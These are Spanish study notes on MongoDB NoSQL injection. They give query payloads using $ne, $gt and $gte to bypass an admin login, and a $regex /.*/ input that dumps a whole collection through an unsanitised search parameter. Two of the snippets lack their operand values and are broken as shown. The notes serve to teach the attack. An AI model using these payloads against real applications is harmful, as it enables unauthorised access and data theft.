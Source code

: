 Esto supone que conocemos el correo electrónico del administrador y queremos dirigirnos directamente a él:

```javascript
db.users.find({
    email: "admin@admin.com",
    password: {$ne: "x"}
});
```

Cualquier cadena es 'mayor que' una cadena vacía:

```javascript
db.users.find({
    email: {$gt: },
    password: {$gt: }
});
```

```javascript
db.users.find({
    email: {$gte: },
    password: {$gte: }
});
```

![[Pasted image 20230502150524.png]]

### In-Band data extraction

Este viene a ser el SQL injection tradicional en donde obtenemos mas informacion de la que deberiamos ver. 

>[!note]
>**las vulnerabilidades de extracción de datos en banda a menudo pueden llevar a que se exfiltre toda la base de datos. En `MongoDB`, sin embargo, dado que es una `non-relational` base de datos y las consultas se realizan en `specific collections`, los ataques (generalmente) se limitan a la colección a la que se aplica la inyección.**

una aplicacion permite la busqueda de infomacion y tiene la siguiente logica:

```javascript
db.types.find({
    name: $_GET['q']
});
```

Queremos enumerar información para todos los tipos en la colección, y suponiendo que nuestra suposición de cómo el back-end maneja nuestra entrada es correcta, podemos usar una consulta **RegEx** que coincidirá con todo como esto:

```javascript
db.types.find({
    name: {$regex: /.*/}
});
```

esto nos retornaria todos los registros.

